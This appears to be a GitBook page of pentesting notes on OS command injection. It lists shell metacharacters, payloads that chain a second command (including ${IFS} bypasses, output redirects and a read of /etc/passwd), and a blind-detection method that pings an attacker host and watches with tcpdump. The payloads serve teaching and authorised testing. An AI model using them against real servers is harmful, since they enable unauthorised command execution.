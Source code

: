 ```yaml
---
description: ;ping+-c+10.10.10.10+1#
---
```


# Command Injection

Command Injection is a critical vulnerability that results in attackers being able to directly manipulate and control a server remotely. This exploit abuses the lack of input validation in a server through some special characters inputted by attackers.

<figure><img src="../.gitbook/assets/image (280).png" alt=""><figcaption><p><em>Taken from PortSwigger Web Security Academy</em></p></figcaption></figure>

Generally, command injection isn't some standalone exploit on a website (unless it's really badly designed), but rather it's something that can be found through chaining other vulnerabilities together.

## Exploitation

In order to exploit this properly, we need to understand some special characters and what they do within an application.

{% code overflow="wrap" %}
```bash
# --> comment
$() --> expression in bash that evaluates the text inside bracket as commands
; --> used to chain commands together e.g. id ; whoami would execute 2 commands at once
| --> pipe used to pass output from one command to another e.g. whoami | echo
& --> Bitwise AND Operator
&& --> Logical AND Operator
|| --> Logical OR Operator
%0a --> URI encoded \n character, meaning enter is pressed on keyboard
> --> redirect output somewhere
< --> send file content as an input
' --> escape quotes where necessary
${IFS} --> means " " or space character, useful when there is strict WAF checking
```
{% endcode %}

Here are some possible payloads for testing whether Command Injection Works:

{% code overflow="wrap" %}
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2nd
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not execute but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
{% endcode %}

Generally, if we can view the output of our command, it's very easy to see if we have Command Injection.

<figure><img src="../.gitbook/assets/image (276).png" alt=""><figcaption><p><em>Look at Cmd parameter</em></p></figcaption></figure>

### Blind Injection

Sometimes, we cannot view the output of whatever command we injected. As such, we need to use other commands to 'force' an output.

What I like to use is a `ping` command. When we ping something, what we are really doing is sending something called an **Internet Control Message Protocol (ICMP) packet** to another host. If the host replies with another ICMP packet, then the ping works and the host is alive.

We can test out our Command Injection using this command.

```bash
ping -c 1 10.10.10.10
# if URL encoding needed
ping+-c+1+10.10.10.10
```

What this does is make the machine send **1** ping packet to another host. We can set up a listener on our attacking machine using `tcpdump` on the network interface we expect to receive the packet on and to only respond if ICMP packets are received.

Below is an example of a succesful exploit script being used to execute the `ping` command. We can see the received PING packet from the second terminal window.

<figure><img src="../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>
